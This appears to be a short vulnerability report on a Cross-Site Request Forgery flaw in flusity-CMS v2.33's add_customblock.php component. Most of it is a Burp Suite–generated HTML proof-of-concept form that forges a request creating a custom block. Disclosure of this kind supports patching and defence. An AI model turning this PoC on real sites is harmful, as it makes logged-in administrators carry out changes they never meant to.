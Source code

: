 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /core/tools/add_customblock.php

![1](https://github.com/tang-0717/cms/assets/96685332/ecb146e1-f0d6-4d95-b5a2-9e5c80a96f5f)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/add_customblock.php" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="mode" value="create" />
      <input type="hidden" name="customblock&#95;place&#95;id" value="8" />
      <input type="hidden" name="customblock&#95;menu&#95;id" value="0" />
      <input type="hidden" name="customblock&#95;name" value="cs" />
      <input type="hidden" name="customblock&#95;html&#95;code" value="123" />
      <input type="hidden" name="lang&#95;custom&#95;name" value="" />
      <input type="hidden" name="lang&#95;custom&#95;content" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>



```

![2](https://github.com/tang-0717/cms/assets/96685332/d6047772-6fc5-4609-81be-bcf44b9d8b54)


Successed

![3](https://github.com/tang-0717/cms/assets/96685332/010d7c8a-0f2e-4cbc-9a9d-313982f433c8)
